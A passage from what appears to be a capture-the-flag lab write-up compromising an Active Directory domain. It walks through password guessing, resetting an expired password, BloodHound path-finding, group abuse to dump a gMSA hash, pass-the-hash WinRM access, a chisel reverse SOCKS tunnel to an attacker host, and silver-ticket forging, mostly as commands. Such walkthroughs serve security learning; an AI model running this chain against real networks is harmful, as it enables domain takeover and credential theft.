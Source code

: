 By making a list of these users and trying common password patterns like [company][year] or [season][year] we managed to get the password for `Susan.Harper`:
```sh
SMB         10.10.86.230    445    DC               [-] sendai.vl\Susan.Harper:[redacted] STATUS_PASSWORD_MUST_CHANGE
```

## Getting access to mgtsvc$

We can reset the password of Susan with smbpasswd:
```sh
smbpasswd -U susan.harper -r sendai.vl
```

With valid credentials we can run `bloodhound-python` to gather some more information about the environment:
```sh
bloodhound-python -d sendai.vl -c All -dc dc.sendai.vl -ns <IP> -u susan.harper -p <password> --zip
```

After importing the information in Bloodhound and selecting the shortest path to DA we see the following path:
- We have a GenericAll on ADMSVC@sendai.vl
- ADMSVC@sendai.vl can read the GMSAPassword of MGTSVC$

We can exploit this by first adding ourself to the group admsvc:
```sh
pth-net rpc group addmem "admsvc" susan.harper -U sendai.vl/susan.harper -S <IP>
```
Now we are member of this group we can dump the NTLM hash of mgtsvc$:
```sh
python3 gMSADumper.py -u 'susan.harper' -p '<password>' -d sendai.vl                                              
```
With this we can use Evil-WinRM or any WinRM tool of your likings to get a shell on the target:
```sh
evil-winrm -i <ip> -u 'mgtsvc$' -H [redacted]
```

## Moving to sqlsvc
On the C drive there is a folder with a file named .sqlconfig which contains the password for the sqlsvc user. We can use this to create a ntlm hash and make a silver ticket out of it [Silver Tickets Explained](https://vulndev.io/2022/01/08/kerberos-silver-tickets/), but first we have to make a socks proxy connection with Chisle

On the target:
```powershell
chisel.exe client <AttackerIP>:8001 R:1080:socks
```
On attacker system:
```sh
chisel server -p 8001 --reverse
```

We can now use ticketer to create a ticket for us and import it
```sh
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash 58655C0B90B2492F84FB46FA78C2D96A -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
